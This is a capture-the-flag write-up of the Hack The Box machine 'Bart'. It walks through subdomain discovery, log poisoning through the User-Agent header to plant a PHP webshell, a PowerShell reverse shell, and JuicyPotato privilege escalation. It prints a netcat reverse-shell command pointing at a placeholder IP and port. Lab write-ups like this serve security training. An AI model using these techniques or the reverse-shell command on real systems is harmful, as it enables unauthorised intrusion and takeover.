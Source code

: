 # Bart

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (19) (6).png" alt=""><figcaption></figcaption></figure>

Only one port was available. We had to add `forum.bart.htb` to our `/etc/hosts` file to access the website.

### Web Enum

The website was a standard company page:

<figure><img src="../../../.gitbook/assets/image (5) (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

I checked the page source, and found a unique bit here. Seems like there was a user that was not shown for some reason.

<figure><img src="../../../.gitbook/assets/image (50) (2) (2).png" alt=""><figcaption></figcaption></figure>

harvey is the user we probably need to access.&#x20;

We can fuzz subdomains using the `bart.htb` domain to find more places to visit.

<figure><img src="../../../.gitbook/assets/image (32) (3) (1).png" alt=""><figcaption></figcaption></figure>

### monitor.bart.htb

We can visit this to see that it's running PHP Server Monitor v3.2.1.

<figure><img src="../../../.gitbook/assets/image (42) (3).png" alt=""><figcaption></figcaption></figure>

`harvey:potter` works as credentials to let us log in. There, we would view an internal chat instance.&#x20;

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

I looked around and found the settings for this internal chat service, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (71) (1).png" alt=""><figcaption></figcaption></figure>

We can head to that domain to find another application running.

### Simple Chat Log Poisoning

There's a login page within the new page. Our previous credentials of `harvey:potter` do not work here.

<figure><img src="../../../.gitbook/assets/image (21) (5) (1).png" alt=""><figcaption></figcaption></figure>

However, what's interesting was the URL of the website, at `http://internal-01.bart.htb/simple_chat/login_form.php`. Googling around, we can find the exact simple\_chat PHP application being used as it is a open-source project.&#x20;

{% embed url="https://github.com/magkopian/php-ajax-simple-chat'" %}

Within the source code, we can view the register.php to see how to register a new user.

<figure><img src="../../../.gitbook/assets/image (23) (5).png" alt=""><figcaption></figcaption></figure>

All we need to do is sent a POST request with the `uname` and `passwd` parameters to register.

<figure><img src="../../../.gitbook/assets/image (65) (3) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, I logged into the server.

<figure><img src="../../../.gitbook/assets/image (49) (2) (2).png" alt=""><figcaption></figcaption></figure>

Within this page, there's the ability to view the Log files, and when we do, we would first get a pop-up similar to xss with 1, and have this GET request be sent to the machine.

<figure><img src="../../../.gitbook/assets/image (14) (3) (3).png" alt=""><figcaption></figcaption></figure>

When viewing this log, I noticed that the User-Agent was copied from my machine.

<figure><img src="../../../.gitbook/assets/image (58) (3).png" alt=""><figcaption></figcaption></figure>

I played around with this and altered my `User-Agent` field to something else, and it was still copied over.

<figure><img src="../../../.gitbook/assets/image (51) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (34) (5).png" alt=""><figcaption></figcaption></figure>

With this, because it is a PHP page, I attempted to write a webshell within the HTTP header and also change the page to a PHP page by altering the `filename` parameter.

<figure><img src="../../../.gitbook/assets/image (17) (6).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell into the machine using Invoke-PowerShellTcp, as other shells don't work out well.

<figure><img src="../../../.gitbook/assets/image (40) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JuicyPotato

When checking our privileges, we notice we have the SeImpersonatePrivilege enabled.

<figure><img src="../../../.gitbook/assets/image (47) (2) (2).png" alt=""><figcaption></figcaption></figure>

Checking `systeminfo`, we also find that a vulnerable version of Windows was running with no hotfixes.

<figure><img src="../../../.gitbook/assets/image (31) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can run the JuicyPotato exploit to get a reverse shell as root. First, we need to create a .bat file that would be run. I used nc.exe to run my shell:

```
C:\Temp\nc.exe -e cmd.exe <IP> <PORT>
```

Then, we can get JuicyPotato on the machine and run it with a CLSID. We can find one from this page:

{% embed url="http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/" %}

<figure><img src="../../../.gitbook/assets/image (74) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would catch a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (9) (3) (3).png" alt=""><figcaption></figcaption></figure>
